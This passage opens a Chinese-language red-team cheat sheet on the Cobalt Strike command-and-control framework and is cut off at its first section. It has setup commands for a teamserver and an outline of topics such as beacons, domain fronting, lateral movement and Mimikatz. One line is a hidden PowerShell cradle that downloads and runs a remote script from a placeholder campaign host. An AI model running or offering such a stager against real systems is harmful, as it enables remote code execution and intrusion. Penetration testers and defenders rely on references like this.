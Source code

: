 # Cobalt Strike

> Cobalt Strike是一款威胁模拟软件。红队和渗透测试人员使用Cobalt Strike来演示违规风险并评估成熟的安全计划。Cobalt Strike利用网络漏洞，发起鱼叉式钓鱼活动，托管网页驱动攻击，并通过强大的图形用户界面生成恶意软件感染文件，鼓励协作并报告所有活动。

```powershell
$ sudo apt-get update
$ sudo apt-get install openjdk-11-jdk
$ sudo apt install proxychains socat
$ sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
$ sudo ./teamserver 10.10.10.10 "password" [可变形C2配置文件]
$ ./cobaltstrike
$ powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://campaigns.example.com/download/dnsback'))" 
```

## 摘要

* [基础设施](#基础设施)
  * [重定向器](#重定向器)
  * [域名前置](#域名前置)
* [操作安全](#操作安全)
  * [客户ID](#客户ID)
* [有效载荷](#有效载荷)
  * [DNS信标](#DNS信标)
  * [SMB信标](#SMB信标)
  * [Metasploit兼容性](#Metasploit兼容性)
  * [自定义有效载荷](#自定义有效载荷)
* [可变形C2](#可变形C2)
* [文件](#文件)
* [PowerShell和.NET](#PowerShell和.NET)
  * [PowerShell命令](#PowerShell命令)
  * [.NET远程执行](#.NET远程执行)
* [横向移动](#横向移动)
* [VPN和跳转](#VPN和跳转)
* [工具包](#工具包)
  * [提升工具包](#提升工具包)
  * [持久性工具包](#持久性工具包)
  * [资源工具包](#资源工具包)
  * [工件工具包](#工件工具包)
  * [Mimikatz工具包](#Mimikatz工具包)
  * [睡眠面具工具包](#睡眠面具工具包)
  * [线程栈欺骗器](#线程栈欺骗器)
* [信标对象文件](#信标对象文件)
* [通过Cobalt Strike进行NTLM中继](#通过Cobalt Strike进行NTLM中继)
* [参考资料](#参考资料)

## 基础设施

### 重定向器
